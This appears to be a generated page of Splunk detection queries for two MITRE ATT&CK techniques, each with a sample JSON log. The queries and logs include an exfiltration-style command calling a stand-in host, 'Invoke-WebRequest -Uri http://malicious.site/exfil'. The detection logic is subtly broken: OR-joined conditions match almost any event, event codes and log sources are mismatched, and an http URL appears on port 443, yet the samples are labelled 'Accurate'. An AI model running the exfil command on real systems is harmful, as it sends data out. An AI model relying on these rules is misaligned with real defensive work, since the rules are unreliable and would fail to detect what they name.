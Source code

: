 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="svc-account"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 14:10:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "svc-account",
  "Source_Network_Address": "192.168.56.126",
  "DestinationPort": "443"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 3"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="svc-account"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 14:15:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 3",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "svc-account",
  "Source_Network_Address": "192.168.56.102",
  "DestinationPort": "8443"
}
```

---